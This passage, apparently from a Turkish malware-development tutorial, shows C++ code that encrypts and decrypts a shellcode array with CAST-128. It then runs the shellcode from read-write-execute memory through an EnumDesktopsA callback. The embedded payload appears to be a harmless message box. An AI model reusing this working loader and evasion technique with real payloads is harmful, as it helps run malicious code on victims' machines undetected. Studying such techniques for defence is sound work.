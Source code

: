```cpp
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

`main` fonksiyonunda, bir yük (shellcode) tanımlanır ve anahtar planlaması oluşturulur. Daha sonra shellcode, `CAST-128` algoritması kullanılarak şifrelenir ve çözülür.
